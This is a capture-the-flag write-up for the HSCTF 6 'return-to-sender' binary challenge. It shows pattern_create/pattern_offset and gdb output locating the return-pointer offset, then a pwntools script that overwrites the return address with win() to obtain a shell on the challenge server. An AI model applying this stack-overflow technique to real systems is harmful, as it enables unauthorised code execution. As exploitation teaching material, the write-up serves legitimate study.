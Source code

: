 Now, we have to figure out the offset at which we control the return pointer (i.e, how many A's can we enter before we can enter BBBB and set the return pointer to 0x42424242?). I use metasploit's `pattern_create.rb` to generate a unique pattern of 200 characters, then pass it to gdb.
```shell
» pattern_create -l 200               
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

» gdb ./return-to-sender
Reading symbols from ./return-to-sender...
(No debugging symbols found in ./return-to-sender)
(gdb) run
Starting program: /home/faithlesss/Documents/ctfs/hsctf-6/pwn/return-to-sender/bin/return-to-sender 
BFD: warning: /lib/ld-linux.so.2: corrupt GNU_PROPERTY_TYPE (5) size: 0
BFD: warning: /lib/ld-linux.so.2: corrupt GNU_PROPERTY_TYPE (5) size: 0
BFD: warning: /lib/ld-linux.so.2: corrupt GNU_PROPERTY_TYPE (5) size: 0
Where are you sending your mail to today? Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
Alright, to Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag it goes!

Program received signal SIGSEGV, Segmentation fault.
0x37614136 in ?? ()
(gdb) 

``` 

Alright, now we get a seg fault at `0x37614136`. I then use metasploit's `pattern_offset.rb` to find at which offset the crash occurred.
```shell
» pattern_offset -l 200 -q 37614136                                                             
[*] Exact match at offset 20
```

Now we know that after inputting 20 'A's, the next four bytes that we input will overwrite the return pointer. Now, what we want to do is execute the `win()` function and get a shell. This means that the return pointer just needs to be overwritten with the address of the `win()` function. I wrote up a python script using pwntools that does just that.

```python
#!/usr/bin/env python

from pwn import *

# Connect to the process on the remote ip and port
connection = connect("pwn.hsctf.com", 1234)
elf = ELF("./return-to-sender")

win_addr = p32(elf.symbols['win']) # The address of the win function

padding = 'A'*20

payload = padding
payload += win_addr

# Receive the starting text, then send the payload through
connection.recv()
connection.sendline(payload)

# Make the connection interactive since win() opens a shell for us
connection.interactive()
connection.close()
```